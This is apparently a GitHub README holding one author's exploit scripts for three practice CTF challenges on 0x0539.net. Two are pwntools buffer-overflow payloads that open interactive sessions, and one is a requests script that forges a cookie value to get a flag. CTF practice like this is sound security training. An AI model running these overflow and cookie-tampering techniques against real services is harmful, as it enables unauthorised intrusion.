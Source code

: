 <h1 align="center">
	<img src="https://lh3.googleusercontent.com/proxy/CpoUd8Vc7hVO5iuIL7QkWnlU5yt5dADWL_4vnIxil9CLnk9JokqiAJpoQcqe5jJW6doC-BgT-yi8" width="300px"><br>
    0x0539 - Here I will post my solutions/exploits for some of the challenges on 0x0539.net
</h1>
<p align="center">
	This repository will contain my exploits for solving some challenges on 0x0539.net. Please don't steal my code, and claim it as your own.
</p>

<p align="center">
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Version-1.0.0-7DCDE3?style=for-the-badge" alt="Version">
</p>

## SIGSEGV
```py
from pwn import *


# SIGSEGV
# Date: 08/21/21
# Made by 0x1CA3


class Pwn():
	def __init__(self, host, port):
		self.host = host
		self.port = port

	def exploit(self):
		payload = b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
		connection = remote(self.host, self.port)
		connection.sendline(payload)
		connection.interactive()

def main():
	host = "challenges.0x0539.net"
	port = 7071
	pwn = Pwn(host, port)
	pwn.exploit()

if __name__ == "__main__":
	main()
```

## Inizializzato Pizzaria
```py
from pwn import *


# Inizializzato Pizzaria
# Date: 08/22/21
# Author: 0x1CA3


class Pwn():
    def __init__(self, host, port):
        self.host = host
        self.port = port

    def exploit(self):
        payload = b'444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444444'
        connection = remote(self.host, self.port)
        connection.sendline(b'3')
        
        connection.sendline(payload)
        connection.sendline(payload)
        connection.sendline(payload)
        connection.sendline(payload)
        
        connection.sendline(b'4')
        connection.interactive()

def main():
    host = "challenges.0x0539.net"
    port = 3001
    Pwn(host, port).exploit()

if __name__ == "__main__":
    main()
```

## Lucky Feeling
```py
import requests


# Lucky Feeling
# Date: 08/22/21
# Author: 0x1CA3


class Pwn():
    def __init__(self, host):
        self.host = host
    
    def exploit(self):
        s = requests.Session()
        site_cookies = {"rounds": "999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999"}
        
        a = s.get(self.host, cookies=site_cookies)
        
        for i in range(99):
            a = s.post(self.host, cookies=site_cookies, data={"guess": ""})

        print(""" 
        [+] Flag output [+]
        -------------------""")
        print(s.post(self.host, cookies=site_cookies, data={"guess": ""}).text)

def main():
    host = "http://challenges.0x0539.net:3002/"
    Pwn(host).exploit()

if __name__ == "__main__":
    main()
```
## Credits
```
https://github.com/0x1CA3
```
### Contributions 🎉
###### All contributions are accepted, simply open an Issue / Pull request.
